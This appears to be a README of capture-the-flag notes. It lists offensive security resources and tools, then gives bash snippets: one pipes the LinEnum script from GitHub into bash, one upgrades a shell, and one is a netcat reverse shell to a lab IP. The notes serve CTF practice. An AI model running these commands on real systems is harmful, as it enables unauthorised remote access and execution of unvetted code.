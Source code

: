 # ctf-notes

## Resources

- [GTFOBins](https://gtfobins.github.io/) - List of unix binaries which can be exploited to escalate privileges etc.
- [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) - List of remote shells in various languages
- [NetCat without -e](https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/) - Reverse shell spawning when netcat does not support `-e`
- [Exploit DB](https://www.exploit-db.com/) - Exploit DB
- [Shell Upgrade Guide](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

## Tools

_(skipping obvious stuff like metasploit, nmap, john etc.)_

### Port Scanning
- [furious](https://github.com/liamg/furious)

### Fuzzing
- [scout](https://github.com/liamg/scout) - Lightweight URL fuzzer
- [gobuster](https://github.com/OJ/gobuster) - File/directory/DNS/VHOST buster
- [wfuzz](https://tools.kali.org/web-applications/wfuzz) - Advanced web fuzzer

### Crypto
- [pax](https://github.com/liamg/pax) - Padding oracle exploiter

### Linux Enumeration
- [LinEnum](https://github.com/rebootuser/LinEnum) - Linux enumeration script

## Snippets

### Linux Enumeration

```bash
curl -s https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Upgrade Shell

```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py && python /tmp/shell.py
```

### Reverse Shell w/ max compatibility

```bash
rm /tmp/backpipe; mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc 10.10.14.11 4445 1>/tmp/backpipe
```

